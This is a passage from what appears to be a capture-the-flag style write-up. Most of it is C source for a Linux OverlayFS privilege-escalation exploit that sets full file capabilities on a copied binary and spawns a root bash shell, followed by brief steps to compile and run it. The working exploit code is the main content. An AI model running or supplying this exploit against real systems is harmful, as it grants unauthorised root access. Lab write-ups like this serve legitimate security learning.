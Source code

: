    sprintf(buf, "lowerdir=%s,upperdir=%s,workdir=%s", DIR_LOWER, DIR_UPPER, DIR_WORK);
    if (mount("overlay", DIR_MERGE, "overlay", 0, buf) == -1)
        err(1, "mount %s", DIR_MERGE);

    // all+ep
    char cap[] = "\x01\x00\x00\x02\xff\xff\xff\xff\x00\x00\x00\x00\xff\xff\xff\xff\x00\x00\x00\x00";

    xcopyfile("/proc/self/exe", BIN_MERGE, 0777);
    if (setxattr(BIN_MERGE, "security.capability", cap, sizeof(cap) - 1, 0) == -1)
        err(1, "setxattr %s", BIN_MERGE);

    return 0;
}

int main(int argc, char *argv[])
{
    if (strstr(argv[0], "magic") || (argc > 1 && !strcmp(argv[1], "shell"))) {
        setuid(0);
        setgid(0);
        execl("/bin/bash", "/bin/bash", "--norc", "--noprofile", "-i", NULL);
        err(1, "execl /bin/bash");
    }

    pid_t child = fork();
    if (child == -1)
        err(1, "fork");

    if (child == 0) {
        _exit(exploit());
    } else {
        waitpid(child, NULL, 0);
    }

    execl(BIN_UPPER, BIN_UPPER, "shell", NULL);
    err(1, "execl %s", BIN_UPPER);
}
```

We can using nano to save it.

![image](https://user-images.githubusercontent.com/69868171/119206052-1369d480-ba68-11eb-872f-56e0e076eee3.png)

Now let compile it using `gcc exploit.c -o exploit` .

![image](https://user-images.githubusercontent.com/69868171/119206177-693e7c80-ba68-11eb-820c-0a783e34fab9.png)

Now let run the exploit.

![image](https://user-images.githubusercontent.com/69868171/119206230-8e32ef80-ba68-11eb-9f29-4f2e3485deb7.png)

We are root box rooted.

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>



